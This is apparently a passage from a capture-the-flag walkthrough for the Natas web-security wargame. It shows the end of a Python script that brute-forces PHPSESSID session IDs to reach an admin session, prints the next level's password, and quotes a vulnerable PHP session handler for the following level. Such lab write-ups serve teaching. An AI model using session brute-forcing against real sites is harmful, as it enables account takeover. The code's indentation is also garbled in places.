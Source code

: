         if not re.search("logged in as a regular user", response.text):
    	print(f"PHPSESSID: { i }")
    	print(response.text)
    	break
    		
        print(f"Checked PHPSESSID: { i }")
    ```

- The output for the above code is as follows:

    ![images/level19_code_vs_output.png](images/level19_code_vs_output.png)

- Password

    eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

## 21 Level 20 → Level 21

- The landing page for `natas20` states the following:

    > You are logged in as a regular user. Login as an admin to retrieve credentials for natas21

- We also have the option to view the server side source code. The source code for this level is quite long. The relevant parts are as shown below:

    ```php
    function myread($sid) { 
        debug("MYREAD $sid"); 
        if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
        debug("Invalid SID"); 
            return "";
        }
        $filename = session_save_path() . "/" . "mysess_" . $sid;
        if(!file_exists($filename)) {
            debug("Session file doesn't exist");
            return "";
        }
        debug("Reading from ". $filename);
        $data = file_get_contents($filename);
        $_SESSION = array();
        foreach(explode("\n", $data) as $line) {
            debug("Read [$line]");
        $parts = explode(" ", $line, 2);
        if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
        }
        return session_encode();